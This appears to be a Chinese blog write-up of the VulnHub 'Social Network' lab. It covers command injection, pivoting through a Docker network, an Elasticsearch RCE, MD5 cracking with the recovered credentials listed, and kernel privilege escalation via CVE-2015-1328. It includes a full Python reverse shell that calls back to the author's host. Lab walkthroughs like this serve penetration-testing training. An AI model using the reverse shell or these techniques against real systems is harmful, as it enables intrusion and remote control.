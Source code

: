 ```yaml
---
title: VulnHub靶场 Medium Socnet
description: VulnHub靶场 Medium Socnet WP
pubDate: 10 18 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.png?imageMogr2/format/avif
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


靶机下载连接：[BoredHackerBlog: Social Network \~ VulnHub](https://www.vulnhub.com/entry/boredhackerblog-social-network,454/)

## Web 渗透

进行主机发现，由于是在用一网段下，所以使用二层 ARP 发现，发现如下主机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-1.png?imageMogr2/format/avif)

其中 `192.168.135.192` 是物理机器，`192.168.135.2` 是手机，对 22 和 47主机进行服务探测，找出我们的靶机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-2.png?imageMogr2/format/avif)

找到靶机为 `192.168.135.22`，在 5000 端口下开放了一个 Python 语言的 HTTP 服务，进行访问，来到如下界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-3.png?imageMogr2/format/avif)

进行测试，页面没啥东西，进行目录扫描，发现 `/admin` 路径，页面如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-4.png?imageMogr2/format/avif)

可进行命令执行，插入一个 Python 反弹 shell，同时 nc 启动监听

```python
import socket, os
import pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.135.192", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("sh")
```

反弹成功，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-8.png?imageMogr2/format/avif)

## 内网渗透

进行基本查看，ls 命令发现 Dockerfile 文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-9.png?imageMogr2/format/avif)

目标机器是一个 docker 容器，查看一下 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-10.png?imageMogr2/format/avif)

目标机器只有一个内网网卡，为 `172.17.0.2/16` ，而我们访问的是 `192.168.135.22`，更能说明这是一个 docker 容器

使用 venom 搭建 socks5 隧道，在本地通关 python 搭建简单 HTTP 服务器，然后通过 wget 将 venom 客户端下载到目标靶机，搭建隧道

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-11.png?imageMogr2/format/avif)

隧道搭建成功，连接本地 1234 端口即可实现隧道通信。使用 Proxifier 代理，对 `172.17.0.2/16` 进行扫描，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-14.png?imageMogr2/format/avif)

发现 `172.17.0.1`，并且它也开启了 5000 端口，访问后发现和 `172.17.0.2` 是一样的。对其余 IP 再进行探测

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-13.png?imageMogr2/format/avif)

发现 `172.17.0.3`，并且开放 9200 端口，对该端口进行详细的服务扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-15.png?imageMogr2/format/avif)

是一个 1.4.2 版本的 `Elasticsearch REST API`，该应用曾经有过 RCE，去找一下有没有 EXP，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-16.png?imageMogr2/format/avif)

查看该 EXP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.png?imageMogr2/format/avif)

是一个 python2 版本的 exp，用 python3 格式重新写一下，然后直接利用试试，上来直接拿到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-18.png?imageMogr2/format/avif)

ls 命令发现有个 passwords，里面是用户密码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-19.png?imageMogr2/format/avif)

挨个解 MD5，得到如下结果

```
john:1337hack
test:1234test
admin:1111pass
root:1234pass
jane:1234jane
```

尝试使用 SSH 登录，结果只有 `john:1337hack` 成功登录，没有 sudo 权限。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-20.png?imageMogr2/format/avif)

注意到 Linux 内核版本为 `3.13.0` ，上传扫描脚本，开扫！

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-21.png?imageMogr2/format/avif)

没 sudo 权限，dirtycow 用不了，选择使用 `CVE-2015-1328`。靶机没 GCC

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-22.png?imageMogr2/format/avif)

先编译成二进制文件，再上传执行

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-23.png?imageMogr2/format/avif)

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-24.png?imageMogr2/format/avif)

失败了，看一下代码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-25.png?imageMogr2/format/avif)

这个地方，它又重新调用了 gcc 去生成了一个 `/tmp/ofs-lib.so` 库文件，但是靶机是没有 gcc 的，所以它无法生成这个库文件。

嗯……生成的二进制文件要生成一个库文件，那我们直接把这段代码给他删了，然后直接在目标目录下放一个已经设置好的库文件呢？

修改代码，重新编译

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-28.png?imageMogr2/format/avif)

然后找 `ofs-lib.so`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-27.png?imageMogr2/format/avif)

把他们全部放到靶机里，库文件放到 `/tmp` 下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-29.png?imageMogr2/format/avif)

提权成功。
